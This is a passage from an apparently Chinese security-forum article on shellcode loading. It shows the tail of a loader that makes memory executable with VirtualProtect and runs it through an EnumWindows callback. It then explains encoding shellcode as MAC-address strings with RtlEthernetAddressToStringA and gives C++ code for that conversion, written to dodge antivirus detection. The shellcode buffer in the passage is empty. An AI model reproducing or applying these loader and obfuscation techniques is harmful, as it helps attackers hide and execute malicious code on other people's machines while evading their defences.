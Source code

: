 ```php
        }
        ptr += 16;
    }
    VirtualProtect(alloc_mem, sizeof(buf) * 16, PAGE_EXECUTE, &pflOldProtect);
    cout << sizeof(buf) * 16 << endl;
    EnumWindows((WNDENUMPROC)alloc_mem, NULL);
    return 0;
}
```

![1.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-22909b6f955797872c926d10dc7fbfc6777f5239.png)

MAC实现内存加载
---------

MAC地址也叫物理地址、硬件地址，由网络设备制造商生产时烧录在网卡的EPROM一种闪存芯片，通常可以通过程序擦写。IP地址与MAC地址在计算机里都是以二进制表示的，IP地址是32位的，而MAC地址则是48位（6个字节）。

### RtlEthernetAddressToStringA

```php
NTSYSAPI PSTR RtlEthernetAddressToStringA(
  [in]  const DL_EUI48 *Addr,
  [out] PSTR           S
);
```

第一个参数二进制格式的以太网地址，第二个参数用于存储以太网地址的NULL终止字符串表示形式，大小应足以容纳至少 18 个字符。  
和上面的差不多啊，因此加密代码也较为简单，但是需要注意  
6个字节转换一个mac值，\\x00是一个字节,当使用该函数后6个字节会变成18-1(`\x00`)个字节,即17个字节,当剩余字节数不满6个需要添加`\x00`补充字节数，必须将全部的shellcode全部转化为mac值

```php
#include <windows.h>
#include <ip2string.h>
#include <iostream>

#pragma comment(lib, "ntdll.lib")
using namespace std;

int main(int argc, char* argv[]) {
    char buf[] = "";
    char* p = buf;
    char ip_str[sizeof(buf)];
    cout << "const char* buf[] = {";
    for (int i = 0; i <= (sizeof(buf) - 1) / 6; i++) {
        RtlEthernetAddressToStringA((const DL_EUI48*)&(*p), ip_str);
        p += 6;
        if (i == (sizeof(buf) - 1) / 6) {
            cout << "\"" << ip_str << "\"";
        }
        else {
            cout << "\"" << ip_str << "\",";
        }
    }
    cout << "};";

    return 0;
}
```
